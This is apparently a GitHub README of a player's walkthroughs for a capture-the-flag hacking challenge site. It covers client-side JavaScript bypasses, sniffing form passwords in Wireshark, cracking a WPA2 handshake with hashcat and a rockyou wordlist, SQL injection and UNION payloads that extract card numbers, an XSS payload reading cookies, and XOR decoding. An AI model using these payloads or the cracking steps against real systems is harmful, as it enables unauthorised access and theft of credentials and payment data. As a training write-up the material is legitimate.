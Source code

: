 # AIS-challenges - C4n y0u H4ck 1t ?
AIS Hacking Challenge Site workarounds

I currently have **980** points.

## { Client Side Protections }

### [Super Admin] (10 points)

 - Click submit - error pops out: `Javascript validation failed. You are not super admin. is_super_admin = false`
 - Open console, type: `is_super_admin = true`
 - Click submit again

_Voila!_


### [Timer] (50 points)
 - Inspect Submit button with dev tools;
 - Right click on "<button type="button" class="btn btn-success">SUBMIT</button>" - select `Break on > Subtree Modification`;
 - Go to sources and Pause script execution;
 - `HackerChallenge.js` will open and `  display.text(seconds);` will be highlighted;
 - In console, type `seconds = 1` (DO NOT set to 0 or you will have to wait for... -1 seconds when you resume!);
 - Resume script execution, go to page and click **Submit**.

_Voila!_


### [Paid Content] (100 points)
 - Open dev tools > Network tab;
 - Click submit;
 - You should see a `400 Status` for a `POST method`; 
 - Go to console, expand the `XHR POST https://hack.ainfosec.com/challenge/submit-answer/ [HTTP/2.0 400 Bad Request` and select `Stack Trace` so you can find the file where the function is;
 - Look for `HackerChallenge.submitAnswer` and click on the coresponding file next to it `hackerchallenge.js`;
 - Add a breakpoint at `return $.ajax({ ` (line 53) - this will stop execution before the AJAX call;
 - Go on page and click **Submit** again - since the execution is stopped, you can alter the answer;
 - In console type: `answer = answer.replace('"paid":false', '"paid":true')`;
 - Now, go back to Sources tab, and _Resume script execution_;

_Voila!_


## { Networking }

### [HTTP Basic] (15 points)

 - Download `http-auth.cap` file (~60MB);
 - A `.cap` file is a file that contains packets captured using a sniffing tool;
 - Install Wireshark if you don't have it;
 - Open and load `.cap` file into it;
 - in 'Apply a display filter' type: `http.request.method == POST` so you can see all the forms submitted;
 - Check for: 
 ```
 HTML Form URL Encoded: application/x-www-form-urlencoded
 Form item: "name" = "xxxxxxx"
 Form item: "pass" = "XXXXXXXXXXX"
 ```
_Voila!_

### [WPA2 Deauth] (30 points)

 - Download `de-auth.cap` file (~18kb);
 - It is a file that contains the EAPOL handshake (google it if you don't know what it is);
 - We are going to use HashCat, so first we have to convert `.cap` file to `.hccapx`:
 - Convert it to `.hccapx` here: https://hashcat.net/cap2hccapx/ ;
 - Install hashcat: `brew install hashcat` (on macOS);
 - Download dictionary file - a file that contains **LOTS** of passwords: `http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2` ;
 - Unzip it: `bunzip2 rockyou.txt.bz2` ;
 - Run: `hashcat -m 2500 capture.hccapx rockyou.txt` 
 (_-m 2500_ is the parameter for setting the hash type to WPA-EAPOL-PBKDF2);
 - You will get something like that: `SOME_LONG_SEQUENCE_OF_CHARACTERS:ROUTER_MAC:CLIENT_MAC:NETWORK_SSID:PASSWORD`.

_Voila!_

## { Input Validation } 

### [SQL Login] (50 Points)

 - We are facing a basic login form, so we test by entering `'`;
 - An error message will pop: `'SELECT username, password FROM users WHERE username='admin' AND password='''' - unrecognized token: "'''"`;
 - Easy peasy! Just enter this: `' or '1'='1`.
 
_Voila!_

### [Cross Site Scripting] (75 Points)

 - By checking the stored cookies, we see for `admin_sess_id` the following value: `flag_should_be_here%20%F0%9F%A4%94`
 - `%20%F0%9F%A4%94` is this emoticon: 🤔
 - Let's test the input for URL with a basic XSS payload: 
 `<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>` and click **Submit**
 - TA-DA! Here's our flag...I mean...

_Voila!_

### [SQL Credit Cards] (100 Points)
 - As usual, test form by entering `'`;
 - An error message will pop:`'SELECT username FROM credit_cards WHERE username=''' COLLATE NOCASE' - unrecognized token: "''' COLLATE NOCASE"`;
 - So we have to forge the query. Try to enter this: `  ' and FALSE union SELECT card FROM credit_cards WHERE username='xxxxxx  `
 - Card number will be displayed in page: `XXXXXXXXXXXXXXXXX`
 
_Voila!_


## { Crypto } 

### [Encoded] (25 points)

```python
import codecs
import bz2
import textwrap
```

- We receive a string that is base64 encoded, so the first step is to decode it; `codecs.decode(STRING, 'base64')`
- Looking at the result we see the first characters are different from the rest: `BZh91AY&SY`; 
- This is a sign that we are dealing with a bz2 encoded string;
- So we decompress it, and... we get a long binary sequence; `bz2.decompress(RESULT)`
- We split it `DECOMPRESSED.split()`, and transform each sequence into an int (base 2) and get the corresponding character;
```python
ANOTHER_RESULT = []
for item in SPLITTED:
    ANOTHER_RESULT.push(chr(int(item,2)))
```
- We join all the characters `''.join(ANOTHER_RESULT)` and... we are facing a hexadecimal sequence;
- So we split the sequence into pairs of 2 `textwrap.wrap(HEX_SEQUENCE, 2)`, we transform each pair into an int (base 16), and into a character;
- And we join the string: `flag{XXXXXXXXXXXX}`
```python
print (''.join( chr(int(a, 16) ) for a in SPLITTED_HEX_SEQUENCE))
```
_Voila!_

### [Base64] (75 points)
 - This time, we receive a larger string sequence.
 - I inspected the content in Burp, under Decode tab - playing with different encodings - , and I saw a mention at the end of the file: `Did you know docx files are basically just zip files?` and some filenames (`flag.txt`, `xor_key.txt` and other xml files); 
 - So we might be dealing with a file. Let's create one. Or better make it two!
 - If using terminal, type: `touch raw out` - this will create two empty files: `raw` and `out`
 - Put the content inside the raw file, and using python, import base64 package and let's decode the content:
 ```python
>>> import base64
>>> input = open('raw', 'rb')
>>> output = open('out', 'wb')
>>> base64.decode(input, output)
>>> input.close()
>>> output.close()
```
- Now, it's time to play with `out` file; 
- Out of curiosity, I opened `out` file as a docx file: `NOTHING TO SEE HERE MOVE ALONG` it said.\
- Indeed, nothing to see, so I changed the file extension to zip and extracted it.
- Inside the folder created, there are a bunch of files but only two are interesting: `flag.txt` and `xor_key.txt`, both containing some long strings;
- Filenames are self explanatory, so our next step is to decrypt flag sequence using XOR key. But how?
- XOR Decryption is identical to encryption because the XOR operation is symmetrical;
- So all we need to do is to XOR encrypt the flag using the XOR key provided;
- We can do that using python:
```python
import textwrap

key = 'OUR_LONG_SEQUENCE_OF_CHARACTERS_FROM_XOR_KEY_DOT_TXT'
flag = 'OUR_EVEN_LONGER_SEQUENCE_OF_CHARACTERS_FROM_OUR_FILE_NAMED_FLAG_DOT_TXT'
# we split the flag sequence into 2pairs, because hex
flag_list = textwrap.wrap(flag,2)
# and the key sequence into characters
key_list = textwrap.wrap(key,1)
# using XOR magic and base 16 conversion of hex into int combined with ASCII magic from int into char, and
# by the power of join
print (''.join( chr(int(a, 16) ^ ord(b) ) for a, b in zip(flag_list, key_list) ))
# we get the flag:flag{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```
- PS - Beware, it's an ugly one!

_Voila!_


### [Enigma] (100 points) [----WORKING ON----]
 - Currently working on it!

### [XOR] (300 points)
 - Completed, but ain't gonna post it!
 - You have to score 720 points in order to submit your e-mail address! _:)_
